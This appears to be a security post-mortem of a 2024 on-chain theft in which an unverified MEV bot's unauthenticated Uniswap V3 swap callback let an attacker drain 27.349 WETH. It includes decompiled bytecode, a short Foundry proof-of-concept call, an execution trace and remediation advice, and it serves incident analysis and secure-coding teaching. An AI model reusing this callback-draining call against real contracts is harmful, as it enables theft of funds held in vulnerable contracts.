




# Unverified MEV/Arb Contract `0x452E25…` — Unauthenticated `uniswapV3SwapCallback` Drains Its Own WETH

> **Vulnerability classes:** vuln/access-control/missing-auth

> One sentence: an unverified on-chain arbitrage/MEV helper exposes a **public, unauthenticated** `uniswapV3SwapCallback(int256,int256,bytes)` that transfers an attacker-chosen token+amount to `msg.sender`, so anyone can call it directly and walk off with the contract's entire WETH balance — no swap, no pool, no flash loan.

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs
> that do not compile together, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> The vulnerable contract is **unverified** on Etherscan, so the "vulnerable code" section
> below is reconstructed from its on-chain runtime bytecode (read via `cast code … --block 20223094`)
> and the live execution trace.

---

## Key info

| | |
|---|---|
| **Loss** | **27.349 WETH** (~$90.3K @ ≈ $3,300/ETH on the day) drained from the contract's own balance |
| **Vulnerable contract** | Unverified MEV/arb helper — [`0x452E253EeB3Bb16e40337D647c01b6c910Aa84B3`](https://etherscan.io/address/0x452E253EeB3Bb16e40337D647c01b6c910Aa84B3) |
| **Victim / "pool"** | The contract is its own victim — the drained funds were **WETH sitting in the contract**, not a liquidity pool |
| **Token stolen** | WETH — [`0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2`](https://etherscan.io/address/0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) |
| **Attacker EOA** | [`0xabee16E74DD268105f166C27a847eDC2b8e7cc4e`](https://etherscan.io/address/0xabee16e74dd268105f166c27a847edc2b8e7cc4e) |
| **Attacker contract** | [`0x27b27842771DF79AF6A69795f6fCA0948C8333c0`](https://etherscan.io/address/0x27b27842771df79af6a69795f6fca0948c8333c0) |
| **Attack tx** | [`0x1194e1d6085885ce054a7ff8cd3cd0c3fa308ec87e4ccde8dd0549842fef4f1b`](https://etherscan.io/tx/0x1194e1d6085885ce054a7ff8cd3cd0c3fa308ec87e4ccde8dd0549842fef4f1b) |
| **Chain / block / date** | Ethereum mainnet / 20,223,095 (fork pinned at 20,223,094) / **2024-07-03 02:47:23 UTC** |
| **Compiler** | Unknown (contract unverified); dispatcher style is Solidity ≥ 0.8 with the `60806040…5f80fd5b` 0.8.18+ prologue |
| **Bug class** | Missing access control / unauthenticated callback (CWE-862) — trusted-callback impersonation |

---

## TL;DR

The vulnerable address is an **unverified** contract — almost certainly a private MEV/arbitrage helper
that performs Uniswap V3 swaps and therefore implements the Uniswap V3 swap callback,
`uniswapV3SwapCallback(int256 amount0Delta, int256 amount1Delta, bytes data)` (selector `0xfa461e33`).

A correct V3 callback must **verify that `msg.sender` is the genuine Uniswap V3 pool** that initiated
the swap (the canonical pattern: recompute the pool address from the factory + the encoded pool key and
`require(msg.sender == computedPool)`). This contract performs **no such check**. Its callback simply:

1. decodes the `bytes data` payload into `(bool, address token)`,
2. picks one of the two `int*Delta` arguments as the amount, and
3. calls `token.transfer(msg.sender, amount)`.

Because anyone can call this function with **fully attacker-controlled arguments**, the attacker just
calls it directly with `token = WETH` and `amount = 27.349e18` and the contract dutifully sends its
own WETH to the caller. The entire balance (27.349638 WETH) is removed in a single external call;
the on-chain attacker took exactly **27.349 WETH**, leaving dust of 0.000638501953291492 WETH behind.

There is no AMM, no flash loan, no price manipulation — it is a pure missing-authorization bug on a
function that is only ever supposed to be invoked by a Uniswap pool mid-swap.

---

## Background — what the contract is

The contract is unverified, but its bytecode dispatcher reveals a small, purpose-built helper. The
public function selectors present at the fork block are:

| Selector | Decoded signature (inferred) | What it does (from bytecode) |
|---|---|---|
| `0xfa461e33` | `uniswapV3SwapCallback(int256,int256,bytes)` | **The vulnerable one** — `token.transfer(msg.sender, delta)`; **no caller check** |
| `0x23e30c8b` | `executeOperation(address,uint256,uint256,address,bytes)` (Aave-style flash-loan callback) | Restricted to `caller == AavePool (0x87870B…)` *and* `initiator == address(this)`; interacts with **Aave V3 Pool** (`supply`/`borrow`) and **MakerDAO DAI** |
| `0x887d3797` | batch `approve(...)` helper | guarded by `caller == owner` (slot 8) |
| `0x9425dd93` | Aave-supply helper targeting DAI | guarded by `caller == owner` |
| `0xc5ecf5ea` | multicall-style batch `call` helper | guarded by `caller == owner` |
| `0x13af4035` | `setOwner(address)` | sets the owner |

So the contract is an **Aave + Uniswap-V3 flash-arbitrage bot**: it borrows via Aave/Uniswap, executes
swaps, and repays. Notice the asymmetry — its Aave callback (`0x23e30c8b`) is *carefully* guarded
(`caller == Aave Pool && initiator == self`), and every privileged admin helper checks `caller == owner`.
But the **Uniswap V3 swap callback was left completely open.**

Two facts from on-chain state at the fork block make the exploit trivial:

| Fact | Value | Source |
|---|---|---|
| Contract's WETH balance (pre-attack) | **27.349638501953291492 WETH** | `cast call WETH.balanceOf(victim) --block 20223094` |
| Contract's WETH balance (post-attack) | 0.000638501953291492 WETH | `cast call WETH.balanceOf(victim) --block 20223095` |
| Owner guard slot (slot 8) | `0x0` | `cast storage victim 8 --block 20223094` |

The contract simply held ~27.35 WETH of working capital between arbitrage runs. The drained amount =
`27.349638… − 0.000638… = 27.349` WETH exactly, matching the trace.

---

## The vulnerable code

The contract is unverified; below is the decompiled logic of the `0xfa461e33` branch reconstructed from
the runtime bytecode (relevant disassembly snippet from
[`cast code 0x452E25… --block 20223094`](output.txt)).

### Raw dispatcher entry (bytecode)

The dispatcher routes selector `fa461e33` to the callback handler:

```
...5763fa461e331461005c575f80fd5b        ; if selector == 0xfa461e33 → jump to 0x5c
3461018d57                               ; require msg.value == 0
606036600319011261018d57                 ; require calldatasize matches 3 packed args
600435 816024356044356001600160401b...   ; load amount0Delta, amount1Delta, data offset
...8385929513 8015610184575b1561018057   ; SLT comparison on the two deltas (sign/ordering guard)
...846113f1                              ; abi.decode data → (bool flag, address token)
60405163a9059cbb60e01b8152              ; build calldata for transfer(address,uint256)  (a9059cbb)
33 60048201526024810192...              ; arg0 = CALLER (msg.sender)          ← recipient
...92af1                                 ; token.call(transfer(msg.sender, delta))
```

The two load-bearing bytes:

- `a9059cbb` = the **`transfer(address,uint256)`** selector.
- `33` = the EVM opcode **`CALLER`**, placed as the *recipient* argument.

### Equivalent Solidity (decompiled)

```solidity
// SELECTOR 0xfa461e33 — Uniswap V3 swap callback
// ⚠️ NO caller validation: msg.sender is NEVER checked against the expected V3 pool.
function uniswapV3SwapCallback(
    int256 amount0Delta,
    int256 amount1Delta,
    bytes calldata data
) external {
    // (light sign/ordering check on the deltas — does NOT authenticate the caller)
    require(/* amount0Delta or amount1Delta sign condition */);

    (bool flag, address token) = abi.decode(data, (bool, address));

    // selects amount0Delta or amount1Delta based on `flag`/sign
    uint256 amount = uint256(flag ? amount0Delta : amount1Delta);

    // ⚠️ sends an ATTACKER-CHOSEN token+amount to the CALLER
    IERC20(token).transfer(msg.sender, amount);     // a9059cbb + CALLER(33)
}
```

For comparison, the contract's **Aave** callback in the *same* bytecode is properly fenced
([`0x23e30c8b` branch](output.txt)):

```solidity
// SELECTOR 0x23e30c8b — Aave flashloan callback (CORRECTLY guarded)
function executeOperation(address asset, uint256 amount, uint256 premium, address initiator, bytes data) external {
    require(msg.sender == 0x87870Bca3F3fD6335C3F4ce8392D69350B4fA4E2, "not Aave Pool"); // 7360744434d6339a6b27d73d9eda62b6f66a0a04fa3303
    require(initiator == address(this), "not self");                                     // 306001600160a01b...16036
    ...
}
```

The `7360744434d6339a6b27d73d9eda62b6f66a0a04fa330361` literal in the Aave branch is the hard-coded
Aave V3 Pool address; the V3 callback branch has no equivalent `require(msg.sender == …)`.

### What a correct V3 callback looks like

The canonical, safe implementation (from Uniswap's own periphery `verifyCallback`) recomputes the pool
address deterministically and rejects any other caller:

```solidity
function uniswapV3SwapCallback(int256 amount0Delta, int256 amount1Delta, bytes calldata data) external {
    SwapCallbackData memory d = abi.decode(data, (SwapCallbackData));
    address expectedPool = PoolAddress.computeAddress(factory, PoolAddress.getPoolKey(d.tokenIn, d.tokenOut, d.fee));
    require(msg.sender == expectedPool, "Invalid pool");   // ← the missing line
    // ... pay only what the pool is owed ...
}
```

The vulnerable contract omits exactly this `require` — and additionally lets the *caller* dictate the
token and the amount, so even a weak "is this an ERC20 I expect" filter is absent.

---

## Root cause — why it was possible

Uniswap V3 calls back into the swap initiator (`msg.sender` of `pool.swap()`) via
`uniswapV3SwapCallback`, expecting the initiator to pay the input token to the pool. The security model
is **inverted-trust**: the *callback* function trusts that it is being called by a real pool, and the
*pool* trusts that the callback will pay. The single invariant that makes this safe is:

> The callback MUST verify `msg.sender` is the exact V3 pool it intended to swap with, because the
> callback hands tokens to `msg.sender`.

This contract breaks that invariant in two compounding ways:

1. **No caller authentication.** `uniswapV3SwapCallback` never checks `msg.sender`. Any address can
   invoke it directly — there is no in-flight swap, no pool, nothing.
2. **Attacker-controlled token & amount.** The function reads the recipient as `msg.sender`, the token
   from the caller-supplied `data` payload, and the amount from the caller-supplied `int*Delta`
   arguments. So the caller fully specifies *what* to send, *how much*, and *to whom* (themselves).

The result is a one-line theft primitive: `transfer(attacker, attackerAmount)` of any token the contract
holds. The developer plainly *knew* about callback authentication (the Aave callback is guarded by both
`msg.sender == Aave Pool` and `initiator == self`) but forgot to apply the same discipline to the
Uniswap V3 callback. It is an **asymmetric-guard** mistake: one callback hardened, a sibling callback
left wide open.

---

## Preconditions

- The contract holds a non-zero balance of some ERC20 (here, **27.349638 WETH** of arbitrage working
  capital). Any token the contract holds can be specified by the attacker.
- The function is `external` and has no caller/owner/reentrancy gate — satisfied unconditionally.
- No capital, flash loan, or market conditions are required. The attack costs only gas.

That is the entire bar: **a vulnerable contract that holds tokens and is reachable at any block.** The
attacker chose block 20,223,095, presumably as soon as the contract's WETH balance was worth taking.

---

## Attack walkthrough (with on-chain numbers from the trace)

The PoC reproduces the live attack with a single direct call. From [output.txt](output.txt):

```
XXXExploit::testExploit()
 ├─ 0x452E25…::uniswapV3SwapCallback(27349000000000000000, 27349000000000000000, 0x…0001…c02aaa39…)
 │   ├─ WETH9::transfer(XXXExploit, 27349000000000000000)
 │   │   └─ emit Transfer(from: 0x452E25…, to: XXXExploit, value: 27349000000000000000)
 │   └─ ← [Return]
 ├─ WETH9::balanceOf(XXXExploit) [staticcall] → 27349000000000000000
 └─ emit log_named_decimal_uint("profit = ", 27349000000000000000, 18)
```

| # | Step | Calldata / value | Effect |
|---|------|------------------|--------|
| 0 | **Initial** | — | Contract holds **27.349638 WETH**. |
| 1 | Attacker calls `uniswapV3SwapCallback(amount0Delta = 27.349e18, amount1Delta = 27.349e18, data = abi.encode(true, WETH))` directly | `msg.sender` = attacker | No pool involved; the callback runs with attacker-controlled args. |
| 2 | Callback decodes `data` → `(flag = true, token = WETH)` and selects `amount = amount0Delta = 27.349e18` | — | Attacker dictates token + amount. |
| 3 | Callback executes `WETH.transfer(msg.sender, 27.349e18)` | recipient = attacker | **27.349 WETH leaves the contract → attacker.** |
| 4 | **Post** | — | Contract left with **0.000638501953291492 WETH** dust; attacker holds 27.349 WETH. |

The `data` payload in the PoC is
`0x0000…0001` (bool `true`) `‖` `0x…c02aaa39b223fe8d0a0e5c4f27ead9083c756cc2` (WETH address) — exactly
`abi.encode(bool(true), WETH)`.

Storage proof from the `Transfer` event in the trace (WETH balance slots):

- Victim's WETH balance slot `0x30f851f0…b458`: `0x…017b8d6f501c45c4e4` (27.349638… WETH)
  → `0x…000244b6d21d44e4` (0.000638… WETH).
- Attacker's WETH balance slot `0x1da434b7…3a3c`: `0` → `0x…017b8b2a994a288000` (27.349 WETH).

### Profit / loss accounting

| Party | Before | After | Delta |
|---|---:|---:|---:|
| Vulnerable contract `0x452E25…` (WETH) | 27.349638501953291492 | 0.000638501953291492 | **−27.349** |
| Attacker (WETH) | 0 | 27.349 | **+27.349** |
| Attacker cost | — | gas only (~46k gas in PoC) | — |

**Net attacker profit ≈ 27.349 WETH (~$90.3K)**, equal to the contract's stolen balance to the wei.

---

## Diagrams

### Sequence of the attack



### Trusted-callback model: expected vs. actual



### Contract balance state evolution



### The asymmetric-guard mistake (why the dev "knew better")



---

## Remediation

1. **Authenticate the callback caller.** The single missing line. Recompute the expected Uniswap V3
   pool from the factory + pool key encoded in `data` and
   `require(msg.sender == computedPool)` (mirror Uniswap's `CallbackValidation.verifyCallback`).
   Never trust `msg.sender` in a V3/V2/flash callback implicitly.

   ```solidity
   PoolAddress.PoolKey memory key = PoolAddress.getPoolKey(tokenIn, tokenOut, fee);
   require(msg.sender == PoolAddress.computeAddress(UNISWAP_V3_FACTORY, key), "unauthorized");
   ```

2. **Do not let the callback's `data` choose the token and amount to send.** A correct callback pays the
   pool *exactly what the in-progress swap requires* (`amount0Delta`/`amount1Delta` to the pool, not to
   `msg.sender`). The recipient must be the pool, not the caller. The current logic
   (`transfer(msg.sender, callerSuppliedAmount)`) is a generic "send me your tokens" function dressed up
   as a callback.

3. **Apply guards symmetrically.** The contract proves the author understood callback authentication
   (the Aave callback checks both `msg.sender == Aave Pool` and `initiator == self`). Every callback /
   reentrant entry point must receive the same treatment — audit for *sibling* functions that were
   missed.

4. **Hold no idle funds in an MEV/arb helper, or sweep them.** Working capital should be pulled in via
   the flash-loan/borrow it is meant to use and fully returned each transaction; leaving 27 WETH sitting
   in a contract with any open transfer path is an unnecessary standing target.

5. **Add a reentrancy/owner gate as defense-in-depth.** Even if a callback must be external, restricting
   the externally-reachable surface (e.g., only callable while an internal `swapInProgress` flag set by
   the contract's own swap entry point is true) closes the direct-call vector.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to compile together under one `forge build`):

```bash
_shared/run_poc.sh 2024-07-UnverifiedContr_0x452E25_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork pinned at block 20,223,094).
  `foundry.toml` uses an Infura archive endpoint; the test forks state at that block and replays the
  single unauthenticated callback.
- Result: `[PASS] testExploit()` with `profit = : 27.349…`.

Expected tail:

```
Ran 1 test for test/UnverifiedContr_0x452E25_exp.sol:XXXExploit
[PASS] testExploit() (gas: 46181)
Logs:
  profit = : 27.349000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

The whole exploit is the one external call in
[test/UnverifiedContr_0x452E25_exp.sol:24-26](test/UnverifiedContr_0x452E25_exp.sol#L24-L26):

```solidity
bytes memory data = abi.encode(bool(true), address(weth_));
IVictime(victime_).uniswapV3SwapCallback(27_349_000_000_000_000_000, 27_349_000_000_000_000_000, data);
emit log_named_decimal_uint("profit = ", weth_.balanceOf(address(this)), 18);
```

---

*Reference: SlowMist Team — https://x.com/SlowMist_Team/status/1808334870650970514 (unverified contract `0x452E25…`, Ethereum, ~27 ETH).*
